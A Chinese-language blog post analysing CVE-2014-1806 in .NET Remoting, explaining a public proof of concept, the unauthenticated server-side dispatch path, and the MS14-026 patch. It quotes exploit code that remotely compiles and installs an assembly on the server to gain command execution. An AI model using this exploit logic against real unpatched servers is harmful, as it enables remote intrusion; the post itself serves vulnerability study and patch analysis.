 # CVE-2014-1806 .NET Remoting Services漏洞浅析

0x00 简介
=====

Microsoft .NET Remoting是一种分布式处理方式，提供了一种允许对象通过应用程序域与另一对象进行交互的框架。前几天James Forshaw发布了CVE-2014-1806 .NET Remoting Services的漏洞利用程序，花了一些时间对其进行一下简单的调试分析。

首先安装包含漏洞的.NET Framework v4.0.30319，执行poc代码，可以看到执行成功了。

![enter image description here](http://drops.javaweb.org/uploads/images/afe7c11c40b7360cdaf907ec58c07a74f566bba5.jpg)

0x01 分析
=====

对poc代码进行分析，可以看到下面的代码CreateRemoteClass，其中MakeCall模板函数根据参数信息构建发送到服务器端的请求数据并得到服务器执行结果，其中static object SendRequest(object o, bool remote) 函数完成对象的序列化、协议数据包的构建发送以及执行结果的解析。

例如MakeCall(_uri.AbsolutePath, GetStaticMethod(typeof(Path), "GetTempPath"))是用于调用远程服务器中Path对象的GetTempPath方法，并返回执行结果。Poc中的代码用于在远端服务器中上传、编译RemoteClass.cs、IRemoteClass.cs、InstallClass.cs文件得到Installer.dll，然后安装Installer.dll，最终创建IRemoteClass的对象实体。在得到IRemoteClass对象之后，就能调用它的方法执行任意命令了。

```
private static IRemoteClass CreateRemoteClass()
{
    if (_useser)
    {
        return new SerializerRemoteClass();
    }
    else
    {
        string path;
        if (_uri.Scheme != "ipc")
        {
            IRemoteClass ret = GetExistingRemoteClass();

            try
           {
               ret.ToString();
               return ret;
           }
           catch (RemotingException)
           {
           }

           path = MakeCall<string>(_uri.AbsolutePath, GetStaticMethod(typeof(Path), "GetTempPath"));
          path = Path.Combine(path, "Installer.dll");
          CodeDomProvider compiler = MakeCall<CodeDomProvider>(_uri.AbsolutePath, GetCreateInstance<CSharpCodeProvider>());

          string uri = RemotingServices.GetObjectUri(compiler);
          CompilerParameters cp = new CompilerParameters();
          cp.ReferencedAssemblies.Add("System.dll");
          cp.ReferencedAssemblies.Add("System.Configuration.Install.dll");
          cp.OutputAssembly = path;

          cp.GenerateInMemory = false;
          cp.GenerateExecutable = false;

          string code = GetResource("RemoteClass.cs");
          string intf = GetResource("IRemoteClass.cs");
          string inst = GetResource("InstallClass.cs");

CompilerResults res = MakeCall<CompilerResults>(uri,new FakeMethod(typeof(CodeDomProvider).GetMethod("CompileAssemblyFromSource"), _ver), cp, new string[] { code, intf, inst });
          }
          else
          {
              path = typeof(IRemoteClass).Assembly.Location;
          }
          try
          {
             AssemblyInstaller installer = MakeCall<AssemblyInstaller>(_uri.AbsolutePath, GetCreateInstance<AssemblyInstaller>());
            installer.Path = path;
            installer.CommandLine = new string[] { "/name=" + _remotename };
            installer.UseNewContext = true;
            installer.Install(new Hashtable());
       }
       catch
       {
           // In the IPC case this might fail
           // Just continue on with the creation of the remote class and see if we're lucky            
       }
        return GetExistingRemoteClass();
    }
}

```

可以通过WireShark截包验证整个数据交互过程，其中包含文件的上传，服务端的%TEMP%目录下也相应的生成了Installer.dll。

![enter image description here](http://drops.javaweb.org/uploads/images/8adcab195cd420349eb3e5ce475b1aa3d745c397.jpg)

为了了解服务端的数据处理流程，通过windbg对CreateProcessW设置断点，通过sos.dll扩展来观察程序的托管代码调用堆栈。

![enter image description here](http://drops.javaweb.org/uploads/images/f59d2c7a77909cdad3a32b61fce499cdcd74f070.jpg)

通过托管代码的调用栈，结合.NET Reflector对System.Runtime.Remoting.dll进行分析。

可以看到System.Runtime.Remoting.Channels.Tcp.TcpServerTransportSink.ServiceRequest方法通过ITransportHeaders requestHeaders = handler.ReadHeaders()和Stream requestStream = handler.GetRequestStream()获取了协议头和请求的对象流信息。

然后调用System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage方法 ，该方法中通过requestMsg = CoreChannel.DeserializeBinaryRequestMessage(uRI, requestStream, this._strictBinding, this.TypeFilterLevel)对请求的对象流进行反序列化，成功之后则调用System.Runtime.Remoting.Channels.DispatchChannelSink.ProcessMessage。

![enter image description here](http://drops.javaweb.org/uploads/images/a3dcbe92da4271d719a095791c969f504ed65992.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/c85ca747b90417eb550537c9175c7d2947c3932b.jpg)

System.Runtime.Remoting.Channels.DispatchChannelSink.ProcessMessage中简单判断之后，直接调用了ChannelServices.DispatchMessage(sinkStack, requestMsg, out responseMsg)分发消息。

DispatchMessage中则只是通过IsMethodReallyPublic(methodBase)和RemotingServices.IsMethodAllowedRemotely(methodBase))判断了远端调用的方法是否允许，如果满足条件，则进一步处理，最终调用该方法。

![enter image description here](http://drops.javaweb.org/uploads/images/683336789ee8a88fb3777a9a356b0ef29b7e6150.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/ac64b459cc1c92dad0b3bf4036a265e27cc38dfb.jpg)

整个过程中并没有对远端的身份进行有效性验证，而Remoting对远端提供的方法导致了可以通过CreateInstance 在服务端得到获取CodeDomProvider对象、通过CodeDomProvider的CompileAssemblyFromSource方法编译源码、安装Installer.dll，最后创建IRemoteClass类对象来执行命令的漏洞。

0x02 关于补丁
=====

Microsoft 安全公告 MS14-026中提到针对该漏洞的安全更新是通过帮助确保 .NET Framework 为应用程序内存正确强制实施安全控件来解决漏洞，即采用了变通方法，仅允许经过身份验证的客户端与容易受到攻击的服务器进行交互。

![enter image description here](http://drops.javaweb.org/uploads/images/5ccf097462b8d38d8c7f6fa4e6570400f24e0b95.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/73a10ce6c7f90e7ea418e225a3ed161c5bf3f3c9.jpg)

通过给win7 sp1打NDP40-KB2931365-x86.exe补丁，对比打补丁前后的System.Runtime.Remoting.dll的System.Runtime.Remoting.Channels.BinaryServerFormatterSink.ProcessMessage方法，可以看到多了如下图的一段代码。

![enter image description here](http://drops.javaweb.org/uploads/images/bdb878821af1b1c634ddf74c5d0d25d41b4b7a19.jpg)

执行之前的poc代码，将发现服务端抛出异常，由于allowTransparentProxyMessageValue的值为false，导致消息不会进一步被处理，与安全公告中描述的一致。如果allowTransparentProxyMessageValue的值为true，程序的处理流程与未打补丁时相同。

![enter image description here](http://drops.javaweb.org/uploads/images/f91c54bcdd99dcca719dfef5824bf5b39c7f9e76.jpg)